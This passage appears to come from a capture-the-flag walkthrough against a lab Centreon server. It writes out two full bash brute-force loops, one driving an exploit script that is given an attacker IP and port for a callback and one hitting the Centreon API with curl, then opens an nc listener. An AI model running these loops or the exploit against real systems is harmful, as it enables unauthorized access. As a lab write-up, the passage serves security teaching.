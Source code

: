 I’ll run a `bash` for loop over a list of passwords. For each password, I’ll
run the exploit script, and pipe the output into `grep`. I see in the script
that the first thing it does after a successful login is `print("[+] Logged In
Sucssfully")`. So I’ll `grep` for that and then add `&& echo $pass && break`.
That means that if the `grep` is successful, it will echo the password that
worked, and then end the loop.

All of that runs and gets the password in about four minutes using the
`twitter-banned.txt` password list:

    
    
    root@kali# time for pass in $(cat /usr/share/wordlists/seclists/Passwords/twitter-banned.txt); do ./centreon-exploit.py http://10.10.10.157/centreon admin $pass 10.10.14.30 443 | grep "Logged In" && echo $pass && break; done
    [+] Logged In Sucssfully
    password1
    
    real    3m49.380s
    user    2m22.758s
    sys     0m14.211s
    

#### API

An even better way to do this brute force is to use the [Centreon
API](https://documentation.centreon.com/docs/centreon/en/latest/api/api_rest/index.html#authentication).
Based on that documentation, I can attempt authentication using the following
`curl`:

    
    
    root@kali# curl 10.10.10.157/centreon/api/index.php?action=authenticate -d "username=admin&password=admin"
    "Bad credentials"
    

I can do a similar bash loop, and this time it finds the password in less than
a minute:

    
    
    root@kali# time for pass in $(cat /usr/share/wordlists/seclists/Passwords/twitter-banned.txt); do curl -s 10.10.10.157/centreon/api/index.php?action=authenticate -d "username=admin&password=${pass}" | grep authToken && echo $pass && break; done
    {"authToken":"UZVQydKGAqV5v7YfpfHNDepxax\/QiCGW5iiqGOw0iX8="}
    password1
    
    real    0m55.771s
    user    0m3.379s
    sys     0m2.262s
    

### Exploit Fails

Armed with the creds, I opened a `nc` listener and ran the exploit script:

    
    